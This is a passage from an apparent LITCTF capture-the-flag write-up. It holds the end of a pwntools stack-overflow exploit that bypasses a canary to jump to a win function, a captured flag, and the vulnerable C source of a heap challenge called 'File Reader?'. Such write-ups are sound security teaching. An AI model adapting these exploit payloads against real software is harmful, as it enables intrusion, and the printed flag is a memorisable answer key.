 ```python
canary = int(canary,16)

win = base + 0x11e9
ret = base + 0x101a
main = base + 0x1274

log.info(f"canary token {hex(canary)}")

payload = b'A' * offset
payload += p64(canary)
payload += b'\x00' * 8
payload += p64(ret)
payload += p64(win)

io.sendline(payload)

io.interactive()
```

flag: `LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}`

## File Reader?

This program reads a file called flag.txt, but it doesn't seem to work...

---

We are given the source code, the binary and the glibc files.

Lets look at the source code:

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    char *c = malloc(64);
    char *d = malloc(64);
    printf("%p\n", d);
    unsigned long a = 0;
    unsigned long b = 0;

    free(c);

    scanf("%lu", &a);
    scanf("%lu", &b);

    *((unsigned long *)a) = b;

    puts("Exiting...");

    free(c);

    int fd = open("flag.txt", O_RDONLY);
    d[read(fd, d, 64)-1] = 0;
    puts(d);
    free(d);
    return 0;
}
```
